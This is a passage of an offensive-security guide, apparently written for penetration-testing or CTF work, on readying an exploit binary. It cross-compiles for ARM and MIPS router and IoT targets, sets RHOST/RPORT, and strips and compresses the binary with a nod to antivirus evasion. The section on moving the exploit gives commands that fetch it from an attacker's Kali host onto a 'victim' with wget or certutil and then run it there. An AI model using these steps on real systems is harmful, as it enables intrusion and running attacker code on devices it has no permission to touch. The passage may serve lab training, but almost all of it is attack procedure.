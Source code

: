 ### 5) Cross-compile for embedded (ARM/MIPS)
```bash
# ARMv7 hard-float (common on routers/IoT)
arm-linux-gnueabihf-gcc exploit.c -Os -static -s -o exploit_armhf

# AArch64
aarch64-linux-gnu-gcc exploit.c -Os -static -s -o exploit_aarch64

# MIPS and MIPS little-endian
mips-linux-gnu-gcc exploit.c -Os -static -s -o exploit_mips
mipsel-linux-gnu-gcc exploit.c -Os -static -s -o exploit_mipsel
```
Tips:
- Static is often required on BusyBox systems with limited/odd libc.
- Reduce size further:
```bash
arm-linux-gnueabihf-gcc exploit.c -Os -fdata-sections -ffunction-sections \
  -Wl,--gc-sections -static -s -o exploit_armhf
```

### 6) Define values at compile time (avoid editing source)
If the exploit supports macros for RHOST/RPORT/PATH, pass them with -D:
```bash
gcc exploit.c -O2 -o exploit \
  -DRHOST="\"10.10.14.6\"" -DRPORT=4444 \
  -DUSER="\"www-data\"" -DPATH="\"/tmp/pwn\""
```

### 7) Verify and minimize
```bash
file exploit*            # Check architecture/OS
ldd exploit              # See dynamic deps (won’t work on static)
readelf -l exploit       # Check interpreter / dynamic linker
strip -s exploit         # Remove symbols to shrink
upx -9 exploit           # Compress (avoid if AV is a concern)
```

### 8) Transfer to target
Linux:
```bash
# Serve from Kali
python3 -m http.server 8000
# On target
wget http://<KALI_IP>:8000/exploit
chmod +x exploit
./exploit
```
Windows:
```cmd
# From victim (pull)
certutil -urlcache -split -f http://<KALI_IP>:8000/exploit64.exe exploit.exe
exploit.exe
```
Or use smbclient/scp as appropriate.
